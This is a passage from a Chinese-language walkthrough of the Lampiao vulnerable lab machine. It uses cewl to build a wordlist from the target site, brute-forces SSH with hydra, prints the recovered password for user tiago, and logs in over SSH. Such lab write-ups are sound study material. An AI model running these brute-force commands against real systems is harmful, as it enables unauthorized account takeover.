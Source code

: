 ```
http://192.168.81.139:1898/qrc.png
```

发效了一个二维码

扫描之后，发现信息如下：

```
Try harder!muahuahua
```

![image-20220228110230126](https://gitee.com/xxb667/img/raw/master/img/image-20220228110230126.png)

# 2. 漏洞探测

## 2.1 利用cewl获取网站信息

利用cewl获取网站关键信息从而生成一个密码字典：

```
cewl http://192.168.81.139:1898 -w lampiao.txt
```

![image-20220228111522755](https://gitee.com/xxb667/img/raw/master/img/image-20220228111522755.png)

hydra对用户密码进行爆破

利用hydra对用户tiago密码进行爆破：

```
hydra -l tiago -P lampiao.txt 192.168.81.139 ssh
```

得到账户密码：

```
login: tiago   
password: Virgulino
```

![image-20220228112147921](https://gitee.com/xxb667/img/raw/master/img/image-20220228112147921.png)

## 2.2 ssh进行登录

利用ssh进行登录：

```
ssh tiago@192.168.81.139
```

根据提示输入

```
yes
Virgulino （这个就是密码）
```
